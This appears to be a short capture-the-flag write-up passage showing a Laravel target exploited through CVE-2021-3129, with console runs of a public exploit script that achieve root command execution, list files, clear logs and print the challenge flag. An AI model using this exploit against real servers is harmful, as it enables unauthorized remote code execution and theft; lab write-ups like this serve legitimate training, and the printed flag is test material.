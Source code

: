 Lavarel seems vulnerable (CVE-2021-3129)

After some exploit [this](https://github.com/nth347/CVE-2021-3129_exploit) seems functional

```console
$ python exploit.py http://localhost:8000 Monolog/RCE1 id
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2673, done.
remote: Counting objects: 100% (1015/1015), done.
remote: Compressing objects: 100% (576/576), done.
remote: Total 2673 (delta 414), reused 883 (delta 308), pack-reused 1658
Receiving objects: 100% (2673/2673), 400.37 KiB | 2.57 MiB/s, done.
Resolving deltas: 100% (1056/1056), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared


$ python exploit.py http://localhost:8000 Monolog/RCE1 ls
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

favicon.ico
index.php
robots.txt
web.config

[i] Trying to clear logs
[+] Logs cleared


$ python exploit.py http://localhost:8000 Monolog/RCE1 "ls /root"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

boot.sh
pid
restart.sh
root.txt

[i] Trying to clear logs
[+] Logs cleared


$ python exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

bee2421fa91500a633b73d6ff3b2c864
```